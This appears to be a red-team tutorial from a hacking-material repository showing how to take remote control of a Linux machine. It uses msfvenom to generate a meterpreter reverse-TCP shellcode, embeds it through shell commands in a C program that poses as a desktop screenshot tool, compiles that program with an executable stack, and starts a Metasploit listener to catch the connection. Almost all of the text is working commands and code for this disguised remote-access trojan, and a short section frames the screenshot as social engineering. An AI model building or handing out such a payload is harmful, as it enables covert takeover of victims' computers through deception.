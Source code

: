 #### EXERCISE OBJECTIVES
Take control of a linux system remotely ( metasploit - RAT )

<br />

#### STEPS REQUIRED TO ACHIEVE THIS
[1º - Use Metasploit to Build Shellcode in C Format](https://github.com/r00t-3xp10it/hacking-material-books/blob/master/metasploit-RC%5BERB%5D/shellcoding/C_Shellcode_Linux.md#use-metasploit-to-build-shellcode-in-c-format)<br />
[2º - Insert the C shellcode created into a C program](https://github.com/r00t-3xp10it/hacking-material-books/blob/master/metasploit-RC%5BERB%5D/shellcoding/C_Shellcode_Linux.md#insert-the-c-shellcode-created-into-a-c-program)<br />
[3º - Use GCC to compile the C program (make it executable)](https://github.com/r00t-3xp10it/hacking-material-books/blob/master/metasploit-RC%5BERB%5D/shellcoding/C_Shellcode_Linux.md#use-gcc-to-compile-the-c-program-make-it-executable)<br />

<br />

#### SOCIAL ENGINEERING
**'Take a desktop screenshot using a C program'**.<br />
The C program not only runs the shellcode (RAM) that allows us to control the target PC remotely,<br />
but also executes a system command (sh) that takes a screenshot of the target PC desktop using<br />
[MITRE ATT&CK T1113](https://attack.mitre.org/techniques/T1113/) (xwd package) Technic.<br />

**Command Used (screenshot function)**<br />
`system("sleep 1; xwd -root -out /tmp/ScreenShot.xwd");`

<br /><br />

| DEPENDENCIE | FUNCTION | REQUIRED |
|---|---|---|
| Metasploit | Build shellcode ; recive connection ( handler )| yes |
| [GCC](https://www.cyberciti.biz/faq/debian-linux-install-gnu-gcc-compiler/) | Compile the C Program ( make it executable ) | yes |
| [xwd](http://blog.tordeu.com/?p=135) | Take Screenshots ( social engineering ) | optional |


<br /><br />

#### SHELLCODING DESCRIPTION

<br /><br />

#### [!] [Jump to article index](https://github.com/r00t-3xp10it/hacking-material-books/blob/master/metasploit-RC%5BERB%5D/shellcoding/C_Shellcode_Linux.md#exercise-objectives)

---

### STEP-BY-STEP (HOW-TO)

<br /><br />

#### Build shellcode folder

```
sudo mkdir shellcode
cd shellcode
```

<br />

#### Start postgresql service

```
sudo service postgresql start
```

<br />

#### Use Metasploit to Build Shellcode in C Format

```
## Build raw shellcode in C
# WARNING: Replace LHOST value by your local ip address
# WARNING: If your attacking a x64 bit system, then change the arch from -a x86 to -a x64
sudo msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.71 LPORT=666 -b '\x00' -a x86 --platform linux -f c -o chars.raw

```

- **Msfvenom Syntax**
  - -p payload name
  - -b delete nul bites from shellcode
  - -a payload arch
  - -f payload format
  - -o write output to a file 

<br />

#### See whats written inside chars.raw (optional)

```
cat chars.raw
```

<br />

#### Parse shellcode data and store it into a local bash variable

```
pa=$(cat chars.raw | grep -v "=" | tr -d '";' | tr -d '\n' | tr -d ' ')
```

<br />

#### Insert the C shellcode created into a C program

```
echo "#include<stdio.h>" > payload.c
echo "#include<stdlib.h>" >> payload.c
echo "#include<string.h>" >> payload.c
echo "" >> payload.c
echo "unsigned char buf[] = \"$pa\";" >> payload.c
echo "" >> payload.c
echo "int main()" >> payload.c
echo "{" >> payload.c
echo "  printf(\"[i] Please Wait, Taking Screenshot ..\");" >> payload.c
echo "  system(\"sleep 1; xwd -root -out /tmp/ScreenShot.xwd\");" >> payload.c
echo "  printf(\"[i] Screenshot Stored Under: /tmp/ScreenShot.xwd\");" >> payload.c
echo "  system(\"sleep 1; xwud /tmp/ScreenShot.xwd\");" >> payload.c
echo "  void (*ret)() = (void(*)())buf;" >> payload.c
echo "  ret();" >> payload.c
echo "}" >> payload.c
```

<br />

#### See whats written inside payload.c (optional)

```
cat payload.c
```

<br />

#### Use GCC to compile the C program (make it executable)

```
sudo gcc -fno-stack-protector -z execstack payload.c -o desktop_screenshot
```

<br />

#### Start metasploit multi handler

```
# WARNING: Replace LHOST value by your local ip address
# WARNING: If your attacking a x64 bit system, then change the arch from -a x86 to -a x64
sudo msfconsole -x 'use exploit/multi/handler; set LHOST 192.168.1.71; set LPORT 666; set PAYLOAD linux/x86/meterpreter/reverse_tcp; exploit'
```

<br />

#### Execute the C Program (remote machine)

```
chmod +x desktop_screenshot
sudo ./desktop_screenshot
```

<br />

#### [!] [Jump to article index](https://github.com/r00t-3xp10it/hacking-material-books/blob/master/metasploit-RC%5BERB%5D/shellcoding/C_Shellcode_Linux.md#exercise-objectives)

---

### Suspiciou Shell Activity - RedTeam @2019



